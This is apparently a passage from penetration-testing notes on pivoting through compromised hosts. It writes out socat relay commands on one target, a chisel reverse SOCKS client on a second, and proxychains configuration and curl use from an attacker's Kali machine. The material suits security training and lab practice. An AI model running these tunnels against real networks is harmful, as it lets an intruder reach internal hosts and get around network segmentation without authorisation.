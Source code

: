 ```bash
echo "socks5 127.0.0.1 5555" >> /etc/proxychains4.conf #it adds IP and port in listening mode on chisel attacker machine
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption><p>/etc/proxychains4.conf</p></figcaption></figure>

</div>

{% hint style="info" %}
If we'll give an error during next connections, we need to insert line to the top line of the previous request (as photo) or if "dynamic\_chain" option is commented out and strict\_chain" option is uncommented.
{% endhint %}

Execute socat on target 1 using a different port on listening and attacker machine IP and Port:

```bash
#Target 1
./socat tcp-l:2222,fork,reuseaddr tcp:<kali_nat1>:111 #tcp-l: listening port, send data to tcp:attacker:port
```

while we execute chisel on target 2 (using Target 1's IP of 2nd net interface in common between target 1 and 2, in addition we specify proxychains socks port: with R:5555:socks):

```bash
#Target 2
./chisel client <t1_nat2>:2222 R:5555:socks
```

well done, we obtained a new session tunnel on Kali:

<div align="left">

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

</div>

Now, we've visibility with the target 3.

```bash
#Kali
proxychains curl <t3_nat3>
```

